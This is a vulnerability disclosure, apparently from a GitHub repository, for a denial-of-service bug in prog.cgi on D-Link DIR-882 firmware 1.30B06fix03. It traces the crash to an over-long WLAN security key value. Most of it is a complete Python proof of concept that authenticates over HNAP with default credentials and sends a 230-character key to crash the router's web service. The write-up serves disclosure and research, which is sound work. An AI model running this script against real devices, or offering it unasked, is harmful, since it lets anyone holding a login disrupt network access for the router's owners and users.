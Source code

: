 # Dlink DIR-882 DOS vulnerability
## Overview
- Manufacturer's website information：https://support.dlink.com/index.aspx 
- Firmware download address ：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
There is an DOS vulnerability in Dlink DIR-882_A1_FW1.30B06fix03, which can cause prog.cgi to crash.

## Affected version
![](pic/version.png "")
Figure shows the latest firmware ：A1_FW1.30B06fix03 of the router
## Vulnerability details
The firmware version can be found is 1.30 on the web.

![](pic/web.png "")

In prog.cgi,We can find the code details in sub_446E2C,the program passes the contents obtained by the /SetWLanRadioSecurity/Key parameter to V23.

![](pic/code1_1.png "")

![](pic/code1.png "")

The V109 parameter is called by the function decrypt_aes (). In the decrypt_aes () function, it is passed to the sub_427184 ().

![](pic/code2.png "")

In the function sub_427184 (), the length of the passed-in parameter is called as the number of cycles in two for loops.

![](pic/code3.png "")

Therefore, the number of cycles is controllable, and if the number of cycles is long enough, it will lead to dos.
## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following POC attacks

Poc is as follows:
```python
import math
import re
import time
from hashlib import md5

import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')

    key = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetSmartconnectSettings xmlns="http://purenetworks.com/HNAP1/"><Enabled>true</Enabled></SetSmartconnectSettings><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz</RadioID><Enabled>true</Enabled><Mode>802.11bgn</Mode><SSID>dir882</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>0</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower>75</TXPower><Coexistence>true</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz</RadioID><Enabled>true</Enabled><Type>WPA2-PSK</Type><Encryption>AES</Encryption><KeyRenewal>3600</KeyRenewal><RadiusIP1></RadiusIP1><RadiusPort1></RadiusPort1><RadiusSecret1></RadiusSecret1><RadiusIP2></RadiusIP2><RadiusPort2></RadiusPort2><RadiusSecret2></RadiusSecret2><Key>{key}</Key></SetWLanRadioSecurity><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_5GHz</RadioID><Enabled>true</Enabled><Mode>802.11anac</Mode><SSID>dir882</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>1</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower>100</TXPower><Coexistence>false</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_5GHz</RadioID><Enabled>true</Enabled><Type>WPA2-PSK</Type><Encryption>AES</Encryption><KeyRenewal>3600</KeyRenewal><RadiusIP1></RadiusIP1><RadiusPort1></RadiusPort1><RadiusSecret1></RadiusSecret1><RadiusIP2></RadiusIP2><RadiusPort2></RadiusPort2><RadiusSecret2></RadiusSecret2><Key>27fbcc69c5bbcb4f8fb2a12a575e0490cbd1cc6975bbcbac8fb2ecc857bffa90cbd1cc6975bbcbac8fb2ecc857bffa90cbd1cc6975bbcbac8fb2ecc857bffa90</Key></SetWLanRadioSecurity><SetWPSSettings xmlns="http://purenetworks.com/HNAP1/"><WPSPBC>true</WPSPBC><WPSPIN>false</WPSPIN></SetWPSSettings></SetMultipleActions></soap:Body></soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetMultipleActions"'
    headers['HNAP_AUTH'] = hnap_auth("SetMultipleActions", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
After running poc, the process number of prog.cgi has changed, indicating that prog.cgi has been restarted, and normal data packets will not cause the process change.
Before running:

![](pic/a1.png "")

After running:

![](pic/a2.png "")

## CVE-ID
unsigned
